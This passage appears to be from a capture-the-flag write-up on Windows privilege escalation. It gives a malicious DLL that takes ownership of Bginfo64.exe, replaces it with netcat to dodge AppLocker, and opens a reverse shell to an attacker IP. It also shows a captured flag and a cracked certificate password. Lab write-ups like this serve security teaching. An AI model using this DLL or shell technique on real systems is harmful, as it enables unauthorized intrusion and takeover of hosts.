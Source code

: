 Runs as ginawild, this account is part of ITDep which has Writeowner on Bginfo64.exe.

So what we can do is give this user full access over BGinfo64.exe then change that file to be netcat and get a rev shell. This will bypass the applocker rule. (also have to drop nc on the box make sure to put it in `users\public.`)

```
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)
{
  switch(dwReason)
  {
    case DLL_PROCESS_ATTACH:
        system("cmd.exe /c takeown /F C:\\share\\Bginfo64.exe");
        system("cmd.exe /c cacls C:\\share\\Bginfo64.exe /E /G ginawild:F");
        system("cmd.exe /c copy C:\\inetpub\\wwwroot\\data\\sites\\1\\media\\nc64.exe C:\\share\\Bginfo64.exe");
        system("cmd.exe /c C:\\share\\Bginfo64.exe -e cmd 10.10.14.25 9001");
      break;
  }
  return TRUE;
}

```

We get back a shell!

User.txt
```
8a12c8fb0d814e1e4a400753b1dfd9c9
```

# Shell as ginawild
pfx file in recycling bin.

Its encrypted so going to crack it with crackpkcs12

password of abceasyas123